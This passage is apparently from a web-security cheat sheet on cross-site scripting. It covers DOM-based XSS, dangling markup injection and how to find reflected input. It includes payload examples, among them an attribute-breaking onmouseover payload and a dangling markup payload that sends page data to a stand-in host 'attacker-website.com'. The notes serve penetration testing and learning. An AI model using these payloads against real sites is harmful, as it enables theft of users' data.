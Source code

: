 ## DOM-Based XSS
This is when the vulnerability exists in client-side code rather than server-side code.
DOM-based XSS vulnerabilities usually arise when JavaScript takes data from an attacker-controllable source, such as the URL, and passes it to a sink that supports dynamic code execution, such as eval() or innerHTML.

- Example of payloads:

		href="javascript:alert(1)"

## Dangling markup injection
https://portswigger.net/web-security/cross-site-scripting/dangling-markup

Dangling markup injection is a technique for capturing data cross-domain in situations where a full cross-site scripting attack isn't possible.

- Vulnerable code
		<input type="text" name="input" value="CONTROLLABLE DATA HERE

- Payload
		"><img src='//attacker-website.com?

## XSS Detection
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#bypass-tag-blacklist
https://medium.com/@jonathanbouman/reflected-xss-at-fotoservice-hema-nl-af344ef63433

- First, identify where the input/url is reflected in the page. For example, if you have a search box and you try to search some keywords, what happens in the html code of the page. Can you find your keywords inside a `quoted attribute` or inside an `href` attribute ?

	- Search keyword `zzz`
	- Response from the server

	```
	<form action=/ method=GET>
	    <input type=text placeholder='Search the blog...' name=search value="zzz">
	    <button type=submit class=button>Search</button>
	</form>
	```

	- Payload to inject in a similar case

			"onmouseover="alert(1)

- Check the javascript code and look for `DOM` manipulation. It could be potentialy a `DOM-Based XSS`.
	- Example:

			var search = document.getElementById('search').value;

- Is there any javascript framework active on the page (AngularJS etc...) ?

	- If yes, try to inject a payload like this
